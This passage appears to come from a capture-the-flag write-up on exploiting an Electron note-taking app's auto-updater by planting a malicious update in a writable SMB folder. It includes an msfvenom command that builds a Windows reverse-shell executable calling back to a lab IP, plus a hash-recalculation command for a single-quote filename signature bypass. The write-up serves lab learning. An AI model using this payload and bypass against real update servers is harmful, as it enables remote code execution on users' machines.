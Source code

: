 
> Note taking application built with electron-builder which helps users in taking important notes.
> Very limited at the moment. There’s no server interaction when creating notes. So currently it just acts as a one-tier thick client application. We are planning to move it to a full fledged two-tier architecture sometime in the future releases.

This explains why the tools that I used when attempting to interact with the application did not return any useful information. There was a section within the document which seemed interesting:

```text
We follow the below process before releasing our products.
1. Build and install the application to make sure it works as we expect it to be.
2. Make sure that the update server running is in a private hardened instance. To initiate the QA process, just place the updates in one of the "client" folders, and the appropriate QA team will test it to ensure it finds an update and installs it correctly.
3. Follow the checklist to see if all given features are working as expected by the developer.

```

It seems as if it would be possible to create a malicious update which one of the QA testers would run on the host. Since I had Write access to the client folders, I decided to start researching exploits for Heed, or more specifically, Electron-Builder which the application is built from.

### Exploiting Electron-Builder

After a bit of searching, I came across the following blogpost by Doyensec: <https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html>.  The researchers had identified a vulnerability that could be leveraged to bypass the signature verification check -- leading to remote command execution.

In order to exploit this, I first needed to understand how the application was making use of the update. 
> During a software update, the application will request a file named `latest.yml` from the update server, which contains the definition of the new release - including the binary filename and hashes.

To exploit this vulnerability, I needed to do the following:
- Create a new `latest.yml` file
- Bypass signature verification
- Upload malicious file to SMB server's client folder

To create the EXE, I used the following MSFVenom command:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.112 LPORT=9001 -f exe -o "sh'ell.exe"
```

Now that I had the malicious file, I needed to generate a new signature that could be used to bypass the verification process. This can be easily achieved by using a filename containing a single quote and then by recalculating the file hash to match the attacker-provided binary: 

```bash
shasum -a 512 "sh'ell.exe" | cut -d " " -f1 | xxd -r -p | base64 -w 0

fbgPsCxt36iy1EnW+E2WkVWME4j7/7eO2rqCCF1545/xN+MvQF9qVSBgALcP8otB4lE9EaZC2JAh0CeBsqZQlg==
```

In order to create the `latest.yml`, I needed to make the application connect back to my machine and retrieve my reverse shell. The final file is provided below:
